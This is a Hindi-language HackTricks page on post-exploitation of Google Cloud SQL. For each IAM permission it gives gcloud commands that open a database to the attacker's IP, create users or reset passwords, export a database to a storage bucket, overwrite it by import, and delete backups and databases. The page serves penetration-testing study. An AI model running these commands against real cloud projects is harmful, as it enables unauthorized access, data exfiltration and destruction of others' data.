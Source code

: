 # GCP - क्लाउड SQL पोस्ट एक्सप्लोइटेशन

{% hint style="success" %}
AWS हैकिंग सीखें और प्रैक्टिस करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और प्रैक्टिस करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सब्सक्रिप्शन योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## क्लाउड SQL

क्लाउड SQL के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

डेटाबेस से कनेक्ट करने के लिए आपको **बस डेटाबेस पोर्ट तक पहुंचने की आवश्यकता है** और **उपयोगकर्ता नाम** और **पासवर्ड** पता होना चाहिए, कोई IAM आवश्यकताएं नहीं हैं। इसलिए, एक आसान तरीका तक पहुंचने के लिए, मान लें कि डेटाबेस का एक सार्वजनिक IP पता है, तो अनुमत नेटवर्क को अपडेट करें और **अपने आईपी पते को पहुंचने की अनुमति दें**।
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
डेटाबेस की बैकअप को बाधित करने के लिए **`--no-backup`** का उपयोग भी संभव है।

ये आवश्यकताएं हैं, मुझे पूरी तरह से यह नहीं पता कि **`cloudsql.instances.connect`** और **`cloudsql.instances.login`** के अनुमतियाँ क्या हैं। अगर आप जानते हैं तो PR भेजें!

### `cloudsql.users.list`

डेटाबेस के **सभी उपयोगकर्ताओं की सूची** प्राप्त करें:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

यह अनुमति डेटाबेस के अंदर **नए उपयोगकर्ता बनाने की** अनुमति देती है:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

यह अनुमति डेटाबेस के अंदर उपयोगकर्ता को **अपडेट** करने की अनुमति देती है। उदाहरण के लिए, आप इसका पासवर्ड बदल सकते हैं:
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

बैकअप में **पुरानी संवेदनशील जानकारी** हो सकती है, इसलिए उन्हें जांचना दिलचस्प हो सकता है।\
**डेटाबेस में एक बैकअप को पुनर्स्थापित** करें:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
### `cloudsql.backupRuns.delete`

इस अनुमति से बैकअप को हटाया जा सकता है:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**डेटाबेस को एक क्लाउड स्टोरेज बकेट में निर्यात करें** ताकि आप वहां से इसका उपयोग कर सकें:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**डेटाबेस इम्पोर्ट** (ओवरराइट) करें एक क्लाउड स्टोरेज बकेट से:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

डेटाबेस को डेटाबेस इंस्टेंस से हटाएं:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
एडब्ल्यूएस हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण एडब्ल्यूएस रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
जीसीपी हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण जीसीपी रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) ज्वाइन करें या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या हमें ट्विटर पर फॉलो करें 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* [**हैकट्रिक्स**](https://github.com/carlospolop/hacktricks) और [**हैकट्रिक्स क्लाउड**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में पीआर जमा करके हैकिंग ट्रिक्स साझा करें।

</details>
{% endhint %}
